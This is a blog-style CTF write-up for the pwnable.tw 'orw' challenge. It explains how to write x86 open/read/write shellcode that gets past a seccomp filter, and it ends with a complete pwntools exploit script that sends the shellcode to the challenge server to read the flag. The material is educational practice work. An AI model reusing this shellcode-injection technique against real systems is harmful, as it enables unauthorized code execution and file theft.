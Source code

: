 ```yaml
---
layout: post
title:  "Open Read Write shellcoding"
date:   2019-09-09 10:55:00
categories: experience
---
```


# orw writeup [pwnable.tw]


Challenge description

	Read the flag from /home/orw/flag.
	Only open read write syscall are allowed to use.
	nc chall.pwnable.tw 10001


In this challenge we are given a binary , this is information about 
the binary 
	
	orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

And here are some of the protections that are active in this binary

<img src="/images/2019-12-04-135243_511x105_scrot.png">

Yea, the NX protection is disabled , so we can run our code inside the stack segment

## Reverse engineering

Okay we've got some information we need , now it's time to look at the decompilation 
let's open it on ghidra and see the main function

<img src="/images/2019-12-04-140618_359x196_scrot.png">

As you can see , we can input data up to 200 bytes and our input will be stored
at shellcode buffer , and after input the binary will jump to our buffer.
and if you notice that , there is orw_seccomp() function , let's use seccomp-tools 
to gathering more information 

<img src="/images/2019-12-04-141345_527x245_scrot.png">

This binary allow us to use those syscall, so we can try to open the flag inside 
/home/orw/flag and read the value to buffer , and write the buffer.
so it's time to write some asm  , before we write the exploit we have to see syscall code you can use this site
[here](https://syscalls.kernelgrok.com/) and search for sys_open , and this is what we got

<img src="/images/2019-12-04-142625_952x76_scrot.png" class="center" style="width: 800px;">

## Exploit

We have to set eax register to 0x5 and ebx to our file path and more
so firstly to open the file, i make assembly code, like this

<img src="/images/2019-12-04-144810_250x246_scrot.png">

It will xor eax with eax so the value will set to 0 and we do the same 
instructions for ecx , and mov eax with 0x5 (sys_open syscall) so now eax value will have
0x5 (sys_open syscall) , and after that i push ecx and the string (as hex) to stack 
and mov ebx with esp 

let's do read 

<img src="/images/2019-12-04-145249_222x159_scrot.png">

Actually we mov eax with 0x3 (sys_read syscall) and mov ecx with ebx ,ecx is our buffer
and mov ebx with 0x3 because fd and mov dl as 0x30 for the size

and finally lets write it out

<img src="/images/2019-12-04-145735_225x117_scrot.png">

mov eax with 0x4 (sys_write syscall) and mov bl with 0x1 for fd 

and don't forget every time we write shellcode that call a syscall we have to use int 0x80 at the end of our shellcode ,  int 0x80 is the assembly language instruction that is used to invoke system calls in Linux on x86 (i.e., Intel-compatible) processors. 

here is my full exploit code :

{% highlight python %}
from pwn import *
def main():
	# sys_open()
	shellcode = asm('''
			xor 	eax, eax
			xor 	ecx, ecx
			mov 	eax, 0x5
			push 	ecx
			push 	0x67616c66       
			push 	0x2f77726f       
			push 	0x2f656d6f       
			push 	0x682f2f2f       
			mov 	ebx, esp
			int 	0x80
		''')
	# sys_read()
	shellcode += asm('''
			mov 	eax, 0x3
			mov 	ecx, ebx
			mov 	ebx, 0x3 
			mov 	dl, 0x30
			int 	0x80
		''')
	# sys_write()
	shellcode += asm(''' 
			mov 	eax, 0x4
			mov 	bl, 0x1
			int 0x80
		''')
	#r = process("./orw")
	r = remote("chall.pwnable.tw",10001)
	r.sendline(shellcode)
	r.interactive()
if __name__ == '__main__':
	main()
{% endhighlight %}


And here is our flag :
<img src="/images/2019-12-04-151953_496x97_scrot.png">